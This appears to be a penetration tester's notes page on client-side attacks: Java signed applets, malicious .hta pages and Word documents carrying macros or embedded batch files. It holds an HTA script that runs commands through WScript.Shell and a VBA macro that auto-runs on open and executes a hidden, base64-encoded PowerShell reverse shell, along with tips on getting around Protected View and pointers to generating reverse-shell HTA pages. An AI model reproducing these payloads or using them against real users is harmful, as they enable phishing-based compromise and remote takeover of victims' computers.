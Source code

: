 # Java Signed Applets Attack

Automatic Java code execution though applet when visiting a page having Java enabled on the browser
![](../../zzz_res/attachments/java-applet-attacks.png)

---

# HTML Applications Attack (.hta pages)

If a file is created with the extension of .hta instead of .html , Internet Explorer will automatically interpret it as a HTML Application and offer the ability to execute it using the `mshta.exe` program.

>[!tip]
>The purpose of HTML Applications is to allow arbitrary execution of applications directly from Internet Explorer, rather than downloading and manually running an executable. Since this clashes with the security boundaries in Internet Explorer, an HTML Application is always executed outside of the security context of the browser by the Microsoft-signed binary `mshta.exe`.

```html
<html>
<head>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
self.close();
</script>
</body>
</html>
```

![](../../zzz_res/attachments/hta-attack-1.png)

![](../../zzz_res/attachments/hta-attack-2.png)

We can also use [msfvenom](../Tools/msfvenom.md) in order to [generate malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages) and gain a reverse shell from the victim visitor.

---

# Microsoft Word - Macros

Macros can be written from scratch in **Visual Basic for Applications** (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host.
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the `AutoOpen` procedure, which is executed when a new document is opened and the `Document_Open` procedure, which is executed when an already-open document is re-opened.
Both of these procedures can call our custom procedure and therefore run our code.

>[!warning]
>Only `.doc` and `.docm` supports Macro. Avoid using .docx for this kind of attack

```visual-basic
Sub AutoOpen()
   MyMacro
End Sub

Sub Document_Open()
   MyMacro
End Sub

Sub MyMacro()
   Dim Str As String
   '
   ' 255 limit string bypass for the Reverse Shell
   '
   Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
   Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
   Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
   Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
   Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
   Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
   ...
   Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
   Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
   Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
   Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"
   Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
   Str = Str + "QA="
   
   CreateObject("Wscript.Shell").Run Str
End Sub
```

---

# Microsoft Word - Object Linking and Embedding

Scenario: Embed a Windows batch file inside a Microsoft Word document

![500](../../zzz_res/attachments/ole-attack-1.png)

![500](../../zzz_res/attachments/ole-attack-2.png)

![500](../../zzz_res/attachments/ole-attack-3.png)

>[!warning]
>When files are downloaded from the web, they are opened in "**Protected View**". In order to make them effectively working, users have to exit from the mode clicking on the "Enable editing" button. If Publisher is installed it is possible to perform the same attack over publisher, where protected view does not exists.
![](../../zzz_res/attachments/protected-view.png)

---

# Tools

- [Generating malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages)
- BeEF